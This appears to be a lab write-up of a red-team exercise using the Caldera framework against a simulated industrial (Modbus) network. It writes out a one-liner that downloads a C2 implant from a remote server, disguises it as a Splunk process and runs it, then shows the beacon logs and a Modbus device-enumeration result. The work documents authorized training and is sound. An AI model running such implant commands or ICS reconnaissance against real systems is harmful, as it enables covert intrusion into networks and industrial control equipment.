




# Caldera - Modbus Enumeration

## 1. Deploying the Sandcat Agent

To bring a host under our control via Caldera, we deploy Caldera's default agent, **Sandcat** (written in GoLang, communicates over HTTP(S)).


*Figure 1: Caldera "Deploy an agent" dialog — Platform: `linux`, contact: `app.contact.http` → `http://192.168.90.250:8888`, implant name set to `splunkd` (masquerading as a legitimate Splunk process), deployed under the `red` group.*

**Generated one-liner:**
```bash
server="http://192.168.90.250:8888";
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd;
chmod +x splunkd;
./splunkd -server $server -group red -v
```

This downloads the compiled Sandcat binary (disguised as `splunkd`), makes it executable, and launches it in verbose mode, pointing it back at the Caldera C2 server on `192.168.90.250:8888`, registered under the `red` (offensive) operation group.

---

## 2. Executing the Agent on the Target

The one-liner was executed on the compromised Linux host:


*Figure 2: Agent deployment command executed in a shell on the target host.*

---

## 3. Agent Check-in / Beacon

Once executed, the agent starts, establishes its HTTP communication channel, and beacons back to the Caldera server.


*Figure 3: Sandcat agent startup output on the target host.*

**Key output:**
```
Starting sandcat in verbose mode.
[*] No tunnel protocol specified. Skipping tunnel setup.
[*] Attempting to set channel HTTP
Beacon API=/beacon
[*] Set communication channel to HTTP
initial delay=0
server=http://192.168.90.250:8888
upstream dest addr=http://192.168.90.250:8888
group=red
privilege=User
allow local p2p receivers=false
beacon channel=HTTP
available data encoders=base64, plain-text
[+] Beacon (HTTP): ALIVE
[*] Running instruction 577e75b5-565f-4478-8bf9-fd025c633f3d
[*] Submitting results for link 577e75b5-565f-4478-8bf9-fd025c633f3d via C2 channel HTTP
```

This confirms the agent is **alive** and successfully checking in with the Caldera server, running as a `User`-privilege process under the `red` group, and is already executing its first queued instruction.

---

## 4. Modbus Device Enumeration via Caldera

With the agent established on a host inside the `192.168.95.X` OT segment, Caldera was used to run a Modbus enumeration ability leveraging the **pymodbus** library ([github.com/pymodbus-dev/pymodbus](https://github.com/pymodbus-dev/pymodbus)) to read device identification information from a Modbus server at `192.168.95.10:502`.


*Figure 4: Caldera Link Output for the Modbus device-info enumeration ability.*

### Facts Collected

| Name | Value | Score |
|---|---|---|
| `host.file.path` | `//github.com/pymodbus-dev/pymodbus/',` | 1 |

### Standard Output

```
[*] Read Device Information
{0: b'pymodbus', 1: b'PM', 2: b'3.0.0', 3: b'http://github.com/pymodbus-dev/pymodbus/', 4: b'pymodbus Server', 5: b'pymodbus Server', 6: b'Feed 1'}
```

### Standard Error / Execution Log

```
2026-10-05 22:44:25,085 INFO     Connecting to 192.168.95.10:502 over TCP
2026-10-05 22:44:25,086 INFO     Read Device Info -- [Device ID: 1]
2026-10-05 22:44:25,105 INFO     Disconnecting...
```

### Analysis

The ability connected to the Modbus server at `192.168.95.10:502` and issued a **Read Device Identification** request (Modbus function code 0x2B / MEI Type 0x0E). The device responded with:

- **Vendor Name:** `pymodbus`
- **Product Code:** `PM`
- **Major/Minor Revision:** `3.0.0`
- **Vendor URL:** `http://github.com/pymodbus-dev/pymodbus/`
- **Product Name:** `pymodbus Server`
- **Model Name:** `pymodbus Server`
- **User Application Name:** `Feed 1`

This confirms the Modbus service running at `192.168.95.10` is a **simulated/software Modbus server** (the open-source `pymodbus` library), not a physical PLC — consistent with a lab/training environment rather than genuine field hardware. The device identifies itself as **"Feed 1"**, suggesting it represents one process point in a larger simulated ICS/SCADA setup, and is a strong candidate for further Modbus function-code enumeration (reading coils, holding registers, etc.) to map out the simulated process it controls.

---

## Summary

| Step | Action | Result |
|---|---|---|
| 1 | Deployed Sandcat agent (Linux, HTTP, group `red`) | Agent binary `splunkd` staged on target |
| 2 | Executed deployment one-liner on target | Agent downloaded & launched |
| 3 | Agent beacon to `192.168.90.250:8888` | Agent alive, checked in, ran first instruction |
| 4 | Ran Modbus device-info enumeration via Caldera ability | Identified `pymodbus` 3.0.0 server at `192.168.95.10:502`, named "Feed 1" |
